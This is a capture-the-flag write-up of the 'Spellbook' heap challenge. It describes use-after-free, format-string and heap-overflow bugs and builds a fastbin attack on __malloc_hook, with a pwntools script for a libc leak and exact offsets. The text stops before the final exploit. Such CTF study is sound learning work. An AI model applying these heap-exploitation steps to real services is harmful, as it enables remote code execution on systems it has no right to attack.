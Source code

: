 # Spellbook
> Write-up author: jon-brandy

## Lessons Learned:
- Leak main arena address by freeing a chunk to unsorted bin.
- Utilizing Heap Overflow for fastbin attack lead to RCE.

## DESCRIPTION:
In this magic school, there are some spellbound books given to young wizards where they can create and store the spells they 
learn throughout the years. There are some forbidden spells that can cause serious damage to other wizards and are not allowed. 
Beware what you write inside this book. Have fun, if you are a true wizard after all..

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/079264de-f052-44f2-bbc2-994e89cc9ae8)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac148f78-c617-47bd-bc9c-dbd02fe1facd)


2. Upon reviewing the main() functions, we found 4 function call that seems to be our interest. Those are **add()**, **delete()**, **edit()**, and **show()**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3dd271bb-f89a-4e64-bdf3-57a392a7be7b)


3. Great! Let's review the **add()** function first.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/58851af2-e2d8-42e6-992a-b16cff1399f7)


4. Based from the code above, everytime we allocate a chunk and it's size, a new chunk with 0x30 sized field is also created. Let's prove that by allocate a small size of chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/911fbc71-1d53-49dd-9d58-d338f3e91caa)


5. Now let's review the **delete()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf0bd5df-e0ce-45da-b923-29c49a2f351c)


6. Noticed the **__ptr** and **__ptr->sp** is freed but is not set to NULL afterwards. Hence we can still use the chunk later, it's introduce **Use After Free** vuln.
7. Remembering at the **add()** function, we can allocate up to 1000 bytes and there is Use After Free vuln at the **delete()** function. We can leak main arena libc address by freeing size above a fastbin range, so it shall fell to the unsorted bin. Using UAF, we might could obtain RCE.
8. Now let's review the **show()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d269956-3cca-4a3b-893b-f56bcd0600ef)


9. Nothing interesting here, it just prints all the data we sent before.
10. BUT, it introduces another vuln. A Format Strings Bug (FSB).
11. We can use an alternate way to leak libc address, by using this vuln.
12. Now let's analyze the **edit()** function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/041c506d-dcb5-4d9a-a7af-dc716ce2aa05)


13. Found a heap overflow vuln at the second input, remembering the smallest size of chunk we can allocate using malloc is 0x20 sized field. Hence if we allocate above 0x30 sized field and we use **edit()** function to fill our chunk again but it only accepts 0x30, it triggers heap overflow then and we can overwrite metadata of chunk that are adjacent with it.
14. Great! Seems we already identified all the vuln, our objective is to do fastbin attack (fastbindup) which lead to RCE.
15. Let's start by writing the main arena's libc address to the unsorted bin. I allocate 0x200 chunk's size to make sure it outside of the fastbin range so it fell to unsorted bin when freed.

> TEMPORARY SCRIPT

```py
from pwn import *
import os
os.system('clear')

exe = './spellbook'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'INFO'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def malloc(index: int, input_type: bytes, size: int, data: bytes):
    sh.sendlineafter(b'>> ', b'1')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b'power: ', str(size))
    sh.sendlineafter(b': ', data)

def show(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index: int, input_type: bytes, data: bytes):
    sh.sendlineafter(b'>> ', b'3')
    sh.sendlineafter(b'entry: ', str(index))
    sh.sendlineafter(b'type: ', input_type)
    sh.sendlineafter(b': ', data)

def free(index: int):
    sh.sendlineafter(b'>> ', b'4')
    sh.sendlineafter(b'entry: ', str(index))

sh = start()

malloc(0, b'A' * 8, 0x200, b'A' * 8)
malloc(1, b'B' * 8, 0x68, b'B' * 8) # allocate another small junk to prevent consolidation with the top chunk.

free(0)
show(0)

gdb.attach(sh)

sh.interactive()
```

> RESULT - It fell to unsorted bin and not consolidate with the top chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0c58b24a-6bb0-40a2-8714-a11087e5c191)


16. Remember that it also freed 0x30 sized chunk to the fastbin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/08987bcb-c4ee-45bf-a00b-64c722fb2415)


17. By showing the data chunk at index 0, we can obtain the libc main arena address.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7c48594f-7eee-4db1-bde1-e4292945ed14)


> UNPACK RESULT & LIBC BASE CALCULATION

```py
sh.recvuntil(b':')
sh.recvuntil(b':')

get = unpack(sh.recvline().strip().ljust(8, b'\x00'))
log.success(f'MAIN ARENA --> {hex(get)}')

## Calculating libc base.

libc.address = get - 0x3c4b78
log.success(f'LIBC BASE --> {hex(libc.address)}')
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ca65bb28-f0b0-43e6-83e4-8efad5fc043d)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/eaf26c75-da6e-4c0c-80bc-72fad92849a3)


18. Now let's set up our fastbin attack. We can start by allocate another chunk with 0x68 size field (it's the size that fit the libc.sym.system).
19. Then free chunk index 2 and 1.

> RESULT - Chunk index 2 and 1 fell to the unsorted bin.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cb3a65e-18ce-4434-ac93-1f55a0988b10)


20. Great! Now let's utilize the heap overflow vuln to overwrite the FD of chunk 2 to **__malloc_hook()**.
21. But to do this, we need to identify the correct offset, because we need to have 0x7f as the size field (because will be used to drop libc.sym.system or one_gadget).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cd1191e8-1ee2-457d-85e4-5b452d266c19)


22. It's NULL, let's traverse up gain the correct offset.
23. Long story short, found the correct offset at **-35**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b25ad19a-e644-4e5f-b75d-b1ab69ba4886)


24. Anyway there's an alternative way to obtain the correct offset, by substracting the **__malloc_hook()** with fake fast chunk.

> using fake fast chunk

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/829372e3-874f-4b90-a1e1-559e3e25eadf)


25. However it's clear that the offset should be **-35**. Let's edit the second chunk and modify the data chunk to **__malloc_hook() - 35**.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8a2a0e34-8df7-4e65-a4f5-ef4943169a09)


26. Alternatively, we can check the FD of it's chunk.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b077fef-be09-43f8-b1c5-18d8750a40f6)


27. The FD is already filled with **__malloc_hook() - 35**.
28. However I forgot to change our chunk size at index 1 to other than 0x68 (so it does not interfere with our RCE setup), this time let's change it to 24, so it fell to 0x20 fastbin and not 0x70.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d5f39269-6053-4950-bc58-ec33e90fec4e)


30. Great! Now let's allocate 1 junk chunk until we reached chunk **__malloc__hook() - 35**. 
31. Now this time, after we write **__malloc_hook()-35** to the 0x70 bin, we want to overwrite it to `system("/bin/sh")` using one_gadget.
33. So then, at the time we want to request malloc, shell is dropped.
33. AGAIN, we need to identify the correct offset to drop one_gadget.
34. The simplest way to find the offset is by allocating another chunk with size of 0x68 but just fill 0x60 so it does not segfault, then we inspect the strings inside **__malloc__hook()**.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6c121174-35f5-4f5a-a4fe-0febe060917c)


35. Great let's send **19 padding + one_gadget** for the fourth index chunk.
36. AGAIN, another issue. We need to find the correct one_gadget address. We can bruteforce it by using one by one, or we can just inspect the stack address.

> ONE_GADGET

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a2424f93-7ed9-4d46-9a30-7853d96a75c2)

> STACK ADDRESS INSPECTION

